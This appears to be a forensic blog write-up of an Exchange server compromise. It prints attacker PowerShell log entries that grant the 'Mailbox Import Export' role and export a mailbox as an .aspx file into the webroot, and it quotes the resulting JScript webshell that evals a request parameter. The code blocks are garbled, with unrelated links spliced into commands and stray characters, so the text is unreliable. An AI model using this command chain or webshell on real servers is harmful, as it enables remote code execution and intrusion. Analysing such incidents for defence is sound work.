 This vulnerability allows the attacker to write files. As soon as the role “Import Export Mailbox” is assigned to the impersonated user, and the attacker has the ability to execute PowerShell commands. The command “**New-MailboxExportRequest**” can be used to export the target mailboxes to any path as a **PST** file with extension “.aspx”. This will decodes the encoded web shell in the email and writes it to the newly created .aspx file.

```csharp
New-ManagementRoleAssignment\n-Role 'Mailbox Import Export' -User 'Hamad@xxxxx.darksys.com](/)
'\[xxxxx.xxx/xxxxx-OU/](http://darksys.com)
xxxxx  Hamad A. Admin\S-1-5-21-43453453453-435435345-1482027129-500\nRemote-PowerShell-Unknown\n1054
```

**MSExchange Management** "MailboxExportRequest" artifact snapshot:

```csharp
New-MailboxExportRequest\n-Mailbox 'Hamad@xxxxx.darksys.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet\\p433zrwewrvmcv.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'p433zrwewrvmcv''\nxxxxx.sa/xxxxx-OU/xxxxx IT/HamadA. Admin\nS-1-5-21-304353458-1814545535-1482027129-1506\nS-1-5-21-304354354108-1817245355-14820435349-1506\nRemote-PowerShell-Unknown\n10544
```

```csharp
New-MailboxExportRequest\n-Mailbox 'Hamad@xxxxx[.darksys.com](http://smo.gov.sa/)
' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet\\p433zrwewrvmcv.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'rksgzvccymzrvmcv''\[nxxxxx.sa/xxxxx-OU/](http://nsmo.sa/SMO-OU/SMO)
xxxxx Hamad A. Admin\S-1-5-21-43453453453-435435345-1482027129-500\nRemote-PowerShell-Unknown\n10544
```

Moreover, the malicious actor exported 'Hamad@darksys.com
'  mailbox to the path “C:\\inetpub\\wwwroot\\aspnet\\ on exchange server. This results in a PST file with .aspx extension: rksgzvccymzrvmcv.aspx. Under normal circumstances, “p433zrwewrvmcv.aspx” would have been capable of executing javascript code since the attached file.

**FileAttachment.txt** in the draft email is usually a webshell, however, since this was the first email created by the malicious actor, refer to the below figure. created draft emails have a webshell in the attachment.

![The Export email that contains a webshell.](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/proxyshell/Untitled%203.png)

The Export email that contains a webshell.

drafts emails created by the malicious actor contain the same webshell. For instance, the PST file “p433zrwewrvmcv.aspx” contains JavaScript code with RCE:

```csharp
script language = 'JScript' runat = 'server' >function Page_Load() {    eval(Request['exec_code'], 'unsafe');    Response.End;.}< /script>
```

![The PST File with plain JavaScript code](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/proxyshell/Untitled%204.png)

The PST File with plain JavaScript code

---
